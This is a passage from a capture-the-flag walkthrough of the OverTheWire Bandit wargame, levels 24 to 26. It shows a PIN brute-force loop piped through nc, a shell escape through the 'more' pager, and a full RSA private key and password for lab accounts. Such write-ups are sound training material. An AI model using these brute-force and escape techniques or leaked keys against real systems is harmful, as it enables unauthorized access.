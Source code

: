 ```
for pass in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pass"; done | nc localhost 30002 | grep -v 'Wrong'

The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

ssh -C -p 2220 bandit25@bandit.labs.overthewire.org

passwd:iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 26

```
cat /etc/passwd | grep 26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

/usr/bin/showtext 中执行了more命令，可以将窗口调小，然后使more可以显示分屏滚动，这时就可以使用:!sh得到shell，阻止 exit 0

cat bandit26.sshkey

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
```
